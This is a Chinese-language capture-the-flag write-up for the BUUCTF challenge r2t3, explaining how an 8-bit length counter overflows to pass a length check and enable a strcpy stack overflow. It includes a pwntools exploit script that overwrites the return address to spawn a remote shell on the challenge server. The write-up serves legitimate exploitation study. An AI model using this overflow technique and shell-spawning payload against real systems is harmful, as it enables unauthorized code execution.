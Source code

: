 ```yaml
---
title: 整形溢出
categories: 
    - Stack
    - 整形溢出
---
```

# 整形溢出
<!--more-->
## [BJDCTF 2nd]r2t3
来自buuctf

先看ida

![在这里插入图片描述](https://img-blog.csdnimg.cn/20201123233054809.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L1lhbmdaaVRyaWNr,size_16,color_FFFFFF,t_70#pic_center)

buf缓冲区大小为408h，而read读取大小为400h，比buf要小，所以不能进行简单的缓冲区栈溢出。


再看name_check函数，v3是int8类型的变量，1111 1111 = 0xFF = 255。当0xFF +1的时侯，变量发生整形溢出，0x100 = 256 此时v3的数值为零（0000 0000），但是这只是显示了一个字节，其实再计算机里面会溢出，前面会进行进位操作变成 1 0000 0000。


同时还要满足3< v3 <8 的条件，这时候可以确定溢出数值是在 0x104~0x107 中

 




![在这里插入图片描述](https://img-blog.csdnimg.cn/20201123233312233.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L1lhbmdaaVRyaWNr,size_16,color_FFFFFF,t_70#pic_center)



后面的strcpy()函数将s复制给dest,看到dest的偏移为0x11+4


程序中给出了/bin/sh的地址


exp：

```python
from pwn import *
#context.log_level = 'debug'
r=remote('node3.buuoj.cn',26213)
sys_addr = 0x08048594
payload = 'a' * (0x15) + p32(sys_addr) + 'a' * (0x104-0x19) # 0x15 + 0x4 + n = 0x104 
print(len(payload))
r.recvuntil('name:\n')
r.sendline(payload)
r.interactive()
```


Int8, 等于Byte, 占1个字节.

　   Int16, 等于short, 占2个字节. -32768 32767

　   Int32, 等于int, 占4个字节. -2147483648 2147483647

　   Int64, 等于long, 占8个字节. -9223372036854775808 9223372036854775807

   　这样, 看起来比short,int,long更加直观些!

　　 另外, 还有一个Byte, 它等于byte, 0 - 255.

　　所以说这里的v3是占一个字节的，一个字节是由8位二进制决定的。

　　例如：0000 0000 就是一个字节，代表0，1111 1111 也是一个字节，代表255.

[参考1](https://www.jianshu.com/p/757fe6d91669)
[参考2](https://www.cnblogs.com/bhxdn/p/12572580.html)


